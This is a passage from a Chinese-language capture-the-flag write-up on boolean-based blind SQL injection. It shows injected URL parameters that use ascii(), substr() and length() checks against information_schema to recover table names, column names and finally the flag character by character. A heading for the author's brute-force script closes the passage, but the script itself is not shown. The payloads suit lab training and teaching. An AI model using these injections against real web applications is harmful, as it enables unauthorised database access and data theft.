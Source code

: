 ###### 再判断判断所有表具体字符
**手注格式如下**

```sql
?id=1' and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema="ctftraining"),15,1))=113--+
```

**脚本爆破**

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732092353398-528f5666-edd1-4148-bf8b-5393aeadf44b.png)

###### 判断需要的所有表中所有字段的长度
**手注格式**

```sql
?id=1' and length((select group_concat(column_name) from information_schema.columns where table_name="flag"))=4--+
```

**遍历结果**

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732092872807-a999926b-02eb-48dc-b583-bc59ad4439c0.png)



###### 再判断判断所有字段具体字符
```sql
?id=1' and ascii(substr((select group_concat(column_name) from information_schema.columns where table_name="flag"),1,1))=102--+
```

**字段名是 flag**

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732093126509-ba02354c-c561-4e58-aaa4-b05266b0a720.png)



###### 判断需要的该字段下所有内容的长度
```sql
?id=1' and length((select group_concat(flag) from "ctftraining.flag"))=148--+
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732093796889-79a838c6-225b-45df-9418-ac90d372c3da.png)





###### 再判断判断所有内容具体字符
```sql
?id=1' and ascii(substr((select group_concat(flag) from ctftraining.flag),42,1))=125--+
```

结束

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732094370628-500466f8-f997-4b84-8433-c1e6119926e9.png)

###### 脚本代码
**（自己写的，水平有限，不够简洁，效率一般）**

